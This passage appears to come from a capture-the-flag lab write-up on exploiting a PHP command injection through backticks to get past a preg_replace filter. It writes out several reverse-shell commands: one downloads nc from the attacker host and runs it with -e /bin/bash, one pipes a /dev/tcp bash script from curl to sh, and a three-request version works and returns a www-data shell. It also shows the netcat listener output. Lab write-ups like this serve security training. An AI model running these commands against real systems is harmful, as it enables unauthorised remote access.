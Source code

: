 ### Remote Code Execution through Command Injection

While there is some filtering done with the `preg_replace` function, it is not thorough enough. We can execute commands nested in this through use of the backtick, \`.

![](CommandExecution.png)

When we execute this, we find a connection on our local kali:
```bash
$ nc -vlp 80
listening on [any] 80 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.209] 47198
GET / HTTP/1.1
Host: 10.10.14.35
User-Agent: curl/7.74.0
Accept: */*
```

With this, we can connect a new shell as the web account user.

Traditional reverse shell 1-liners were very troublesome to introduce, so instead I decided to try and download `nc` from my kali, then run this binary:

```
`wget 10.10.14.35/nc -o /tmp/nc; chmod +x /tmp/nc; /tmp/nc 10.10.14.35 8888 -e /bin/bash`
```

Once again, `wget` is not well working, but I know `curl` works from my original probing. Perhaps I can curl a bash rev shell script, then pipe it directly to sh?

```bash
$ cat r.sh 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.14.35/8888 0>&1
```


```
`curl 10.10.14.35/r.sh | sh`
```

This doesn't work either, but finally I learn a compromise: splitting the commands into 3 requests

```
`curl 10.10.14.35/nc -o /tmp/nc`

`chmod +x /tmp/nc`

`/tmp/nc 10.10.14.35 8888 -e /bin/bash`
```

On kali listener:
```
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.209] 51538
whoami
www-data
```
